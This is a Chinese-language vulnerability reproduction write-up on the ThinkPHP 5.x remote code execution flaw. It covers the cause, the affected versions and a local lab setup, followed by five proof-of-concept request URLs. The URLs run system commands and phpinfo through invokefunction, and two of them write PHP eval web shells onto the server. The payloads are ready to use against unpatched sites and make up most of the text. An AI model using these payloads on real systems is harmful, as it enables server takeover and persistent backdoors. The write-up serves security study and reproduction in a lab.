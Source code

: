 # ThinkPHP5.x 远程命令执行

Author: H3rmesk1t

Data: 2021.06.06

# 漏洞原因
由于框架对控制器名没有进行足够的检测，导致在没有开启强制路由(默认未开启)的情况下可能导致远程代码执行

# 漏洞影响版本
Thinkphp 5.x-Thinkphp 5.1.31
Thinkphp 5.0.x<=5.0.23

# 漏洞复现
## 搭建漏洞环境
官网下载Thinkphp 5.0.22，[下载地址](http://www.thinkphp.cn/donate/download/id/1260.html)
使用phpstudy搭建环境，解压下载的Thinkphp5.0.22到网站目录下，浏览器访问即可

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606150355430.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

## POC1

```
http://localhost:9091/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606171441823.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
## POC2&POC3

```
http://localhost:9091/public/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

```
http://localhost:9091/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606171808985.png#pic_center)
## POC4&POC5

```
http://localhost:9091/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20^%3C?php%20@eval($_POST[cmd]);?^%3E%20%3Eshell.php
```

```
http://localhost:9091/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=../test.php&vars[1][]=<?php @eval($_POST[test]);?>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606173015963.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
